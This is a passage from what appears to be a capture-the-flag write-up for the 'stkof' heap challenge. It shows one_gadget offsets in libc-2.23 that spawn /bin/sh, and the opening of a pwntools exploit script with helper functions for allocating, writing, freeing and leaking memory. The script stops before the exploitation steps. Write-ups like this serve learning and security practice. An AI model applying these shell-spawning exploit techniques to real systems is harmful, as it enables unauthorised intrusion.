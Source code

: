 Also remember to get our oneshot gadget:
```
$ one_gadget libc-2.23.so 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Exploit

Putting it all together we get the following exploit (this exploit was ran on `Ubuntu 16.04`):

```
from pwn import *

target = process("./stkof", env={"LD_PRELOAD":"./libc-2.23.so"})
elf = ELF("stkof")
libc = ELF("libc-2.23.so")

#gdb.attach(target, gdbscript='b *0x400b7a')

# I/O Functions
def add(size):
  target.sendline("1")
  target.sendline(str(size))
  print target.recvuntil("OK\n")

def scan(index, size, data):
  target.sendline("2")
  target.sendline(str(index))
  target.sendline(str(size))
  target.send(data)
  print target.recvuntil("OK\n")

def remove(index):
  target.sendline("3")
  target.sendline(str(index))
  print target.recvuntil("OK\n")

def view(index):
  target.sendline("4")
  target.sendline(str(index))
  #print "pillar"
  leak = target.recvline()
  leak = leak.replace("\x0a", "")
  leak = u64(leak + "\x00"*(8-len(leak)))
  print hex(leak)
  #print "men"
  print target.recvuntil("OK\n")
  return leak

# The array of ptrs starts at 0x602140
```